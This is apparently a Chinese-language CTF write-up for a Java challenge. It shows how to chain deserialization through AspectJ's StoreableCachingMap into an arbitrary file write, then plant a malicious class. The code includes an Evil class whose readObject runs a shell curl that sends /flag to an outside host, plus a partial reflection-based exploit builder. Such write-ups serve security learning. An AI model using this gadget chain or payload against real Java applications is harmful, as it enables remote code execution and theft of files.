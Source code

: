 ```java
```

`skus`和`oldCartStr`均可控，分别对其反序列化得到`toAdd`和`cart`

接着遍历`toAdd.skuDescribe`的`Map.Entry`，将其键值对放入`toAdd.skuDescribe`

这里就能触发`StorableCachingMap#put`

任意写文件能做些什么？

上传JSP马？题目的配置好像不会解析JSP。。。不太懂

但题目设置了`target/classes`为`WEB-INF/classes`，可以往`classpath`写字节码文件，重写类的`readObject`方法，后面再次触发反序列化。（泰妙辣）

但如果SpringBoot生成的胖jar，这招就不管用了。可以参考这篇文章👉[LandGrey's Blog](https://landgrey.me/blog/22/)

![image-20230603135007804](../.gitbook/assets/image-20230603135007804.png)

```java
import java.io.Serializable;

public class Evil implements Serializable {
    private void readObject(java.io.ObjectInputStream s) throws Exception{
        Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","curl http://ip:port -F file=@/flag"});
        // Runtime.getRuntime().exec("calc");
    }
}
```

```java
import ciscn.fina1.ezj4va.domain.Cart;
import ciscn.fina1.ezj4va.utils.Serializer;
import javassist.ClassPool;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static void main(String[] args) throws Exception {
        Class cache = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor constructor = cache.getDeclaredConstructor(String.class, int.class);
        constructor.setAccessible(true);
        HashMap map = (HashMap) constructor.newInstance("/app/target/classes", 123);

        Cart cart = new Cart();
        cart.setSkuDescribe(map);

        Cart toAdd = new Cart();
        Map<String,Object> fileMap = new HashMap<String, Object>();
```